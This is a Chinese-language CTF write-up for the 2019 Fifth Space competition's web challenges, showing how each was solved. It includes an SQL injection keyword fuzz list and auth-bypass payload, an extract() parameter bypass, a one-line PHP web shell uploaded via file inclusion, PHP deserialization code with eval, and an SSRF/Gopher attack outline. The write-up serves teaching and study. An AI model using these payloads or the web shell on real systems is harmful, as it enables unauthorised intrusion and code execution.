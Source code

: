 ```yaml
---
title: 第五空间网络安全大赛Web Writeup
key: 2e525b6c72aa0da2cbcb0db090ac55b3
tags:
  - SSRF
  - SQLi
  - Writeup
  - CTF
date: 2019-08-30 15:53:34
---
```


> [如何评价2019第五空间网络安全创新能力大赛线上赛？](https://www.zhihu.com/question/343194108)


### 空相 100pt

param is id :)


```bash
# 1.http://111.33.164.4:10001/?id=1%27
param is id :)
Username:admin
Password:./25d99be830ad95b02f6f82235c8edcf7.php
# 2.http://111.33.164.4:10001/25d99be830ad95b02f6f82235c8edcf7.php?token=1DJATMVRTTTG8Q00000020PH2SVDPVQ1
flag{88d3e24c2cab001e159de86f8e8e3064}
```




### 五叶 300pt

![](/assets/images/move/2019-08-30-16-03-05.png)

fuzz如下：

```sql
# Wrong! 未过滤
' " - # & | ` ~ ! @ ; ,
exp database sleep ascii mid where limit 
# 非法字符 过滤
* =
and or from 
select union insert update updatexml
```

Payload:

```sql
' || username like 'admin' -- 
```

猜测查询语句可能为:

```sql
select * form table_name where password = ('$password')
```

当注入得出的**第一条**记录为`admin`时，回显flag位置。

![](/assets/images/move/2019-08-30-16-05-09.png)

### 空性 300pt

![](/assets/images/move/2019-08-30-16-08-28.png)

F12查看源代码，注意到以下内容：

```js
<script language="javascript">
      function check(){
        var value = document.getElementById("txt1").value; 
        if(!isRightFormat(value)){
          alert("账户或密码错误！");
          return false;
        } 
         
		if(!hasRepeatNum(value)){
          alert("账户或密码错误！");
          return false;
        } 
		document.write('<center><br/><a href="./151912db206ee052.php">Welcome to you</a>');  
      }
       
      function isRightFormat(input){
        return /Youguess$/.test(input);
      }

      function hasRepeatNum(input){
		 return /Youguess$/.test(input);
      } 
    </script>

```

`./151912db206ee052.php` =>听说你的Linux用的很6？=> .151912db206ee052.php.swp(vi非正常退出隐藏文件 )

```php
//vi -r 151912db206ee052.php
<?php
error_reporting(0);
class First{
  function firstlevel(){
        $a='whoami';
        extract($_GET);
        $fname = $_GET['fname']?$_GET['fname']:'./js/ctf.js';
        $content=trim(file_get_contents($fname));
        if($a==$content)
        {
                echo 'ok';;
        else
        {
                echo '听说你的Linux用的很6？';
        }
  }
}
$execfirst = new First();
$execfirst -> firstlevel();
?>
```
简单bypass：

```bash
http://111.33.164.4:10003/151912db206ee052.php?a=&fname=x
欢迎打开新世界的大门！
# http://111.33.164.4:10003/2d019a311aaa30427.php?refer=df53ca268240ca76670c8566ee54568a&t=20190828&dtype=computer&file=3792689baaabc7eb&hash256=bfe028187b99faa722cefb30a2aa24d5
```
上传文件（白名单校验）处URL参数如下：

```bash
refer=df53ca268240ca76670c8566ee54568a //computer
&t=20190828
&dtype=computer
&file=3792689baaabc7eb //文件名
&hash256=86bea2686eb3078dcfc93e7b598c8576 //Unix时间戳哈希
```

`file=filename`处存在文件包含，fuzz（脑洞）发现可以上传`.html`，=> `file=upload/xxxxxxxx`(不含文件后缀)，即可Getshell，Payload:

```php
<?php $f = $_GET[f]; $f($_GET[s]); ?>
```





### 八苦 300pt

tips：flag在/var/www/flag.php

```php
//http://111.33.164.6:10004/index.phps
<?php
// flag.php in /var/html/www
error_reporting(0);
class Test{
	protected $careful;
	public $securuty;
	public function __wakeup(){
		if($this->careful===1){
			phpinfo();	// step 1:	read source,get phpinfo and read it carefullt
		}
	}
	public function __get($name){
		return $this->securuty[$name];
	}
	public function __call($param1,$param2){
		if($this->{$param1}){
			eval('$a='.$_GET['dangerous'].';');
		}
	}
}
class User{
	public $user;
	public function __wakeup(){
		$this->user=new Welcome();
		$this->user->say_hello();
	}
}
$a=serialize(new User);
$string=$_GET['foo']??$a;
unserialize($string);
?>
```

题目被部分师傅们持续搅屎以后，主办方放弃了修复此题。（据学长描述是通过PHP7.4的新特性解出 XD

### 六尘 500pt

- 正解

```bash
SSRF扫描端口 => Tomcat 8.0.53:8080 => Gopher攻击内网Struts2
```

![](/assets/images/move/2019-08-30-16-31-34.png)

- 非预期

`./log/`泄露了Apache的access.log.txt，直接访问获取flag。

```bash
10.2.4.115 - - [27/Aug/2019:16:24:12 +0000] "GET /flagishere/6be8b547d6db1d213c1ceecc30b3cb24.php?token=1DJ9R32OAQ81NF00000020PHT0AS6V7Usss HTTP/1.1" 200 211 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0"
```

### Reference

- [👍👍👍 Iv4n | JBY](http://iv4n.xyz)


